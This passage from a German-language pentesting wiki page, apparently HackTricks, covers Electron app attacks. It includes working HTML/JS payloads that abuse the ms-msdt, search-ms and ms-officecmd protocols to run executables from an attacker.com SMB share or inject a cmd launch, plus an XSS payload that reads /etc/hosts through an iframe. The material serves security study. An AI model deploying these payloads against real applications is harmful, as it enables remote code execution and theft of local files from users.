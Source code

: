 **Hier ist ein vereinfachter Pseudocode:**

![https://miro.medium.com/max/1400/1\*iqX26DMEr9RF7nMC1ANMAA.png](<../../../.gitbook/assets/image (261).png>)

![https://miro.medium.com/max/1400/1\*ZfgVwT3X1V\_UfjcKaAccag.png](<../../../.gitbook/assets/image (963).png>)

Die Sicherheitsbest Practices von Electron JS raten davon ab, untrusted Inhalte mit der Funktion `openExternal` zu akzeptieren, da dies zu RCE durch verschiedene Protokolle führen könnte. Betriebssysteme unterstützen unterschiedliche Protokolle, die RCE auslösen könnten. Für detaillierte Beispiele und weitere Erklärungen zu diesem Thema kann man auf [diese Ressource](https://positive.security/blog/url-open-rce#windows-10-19042) verweisen, die Windows-Protokollexemplare enthält, die diese Schwachstelle ausnutzen können.

**Beispiele für Windows-Protokoll-Exploits sind:**
```html
<script>
window.open("ms-msdt:id%20PCWDiagnostic%20%2Fmoreoptions%20false%20%2Fskip%20true%20%2Fparam%20IT_BrowseForFile%3D%22%5Cattacker.comsmb_sharemalicious_executable.exe%22%20%2Fparam%20IT_SelectProgram%3D%22NotListed%22%20%2Fparam%20IT_AutoTroubleshoot%3D%22ts_AUTO%22")
</script>

<script>
window.open("search-ms:query=malicious_executable.exe&crumb=location:%5C%5Cattacker.com%5Csmb_share%5Ctools&displayname=Important%20update")
</script>

<script>
window.open("ms-officecmd:%7B%22id%22:3,%22LocalProviders.LaunchOfficeAppForResult%22:%7B%22details%22:%7B%22appId%22:5,%22name%22:%22Teams%22,%22discovered%22:%7B%22command%22:%22teams.exe%22,%22uri%22:%22msteams%22%7D%7D,%22filename%22:%22a:/b/%2520--disable-gpu-sandbox%2520--gpu-launcher=%22C:%5CWindows%5CSystem32%5Ccmd%2520/c%2520ping%252016843009%2520&&%2520%22%22%7D%7D")
</script>
```
## Interne Dateien lesen: XSS + contextIsolation

**Das Deaktivieren von `contextIsolation` ermöglicht die Verwendung von `<webview>`-Tags**, ähnlich wie `<iframe>`, um lokale Dateien zu lesen und zu exfiltrieren. Ein bereitgestelltes Beispiel zeigt, wie man diese Schwachstelle ausnutzt, um den Inhalt interner Dateien zu lesen:

![](<../../../.gitbook/assets/1 u1jdRYuWAEVwJmf\_F2ttJg (1).png>)

Darüber hinaus wird eine weitere Methode zum **Lesen einer internen Datei** geteilt, die eine kritische Schwachstelle zum Lesen lokaler Dateien in einer Electron-Desktop-App hervorhebt. Dies beinhaltet das Injizieren eines Skripts, um die Anwendung auszunutzen und Daten zu exfiltrieren:
```html
<br><BR><BR><BR>
<h1>pwn<br>
<iframe onload=j() src="/etc/hosts">xssxsxxsxs</iframe>
<script type="text/javascript">
function j(){alert('pwned contents of /etc/hosts :\n\n '+frames[0].document.body.innerText)}
</script>
```
## **RCE: XSS + Alte Chromium**
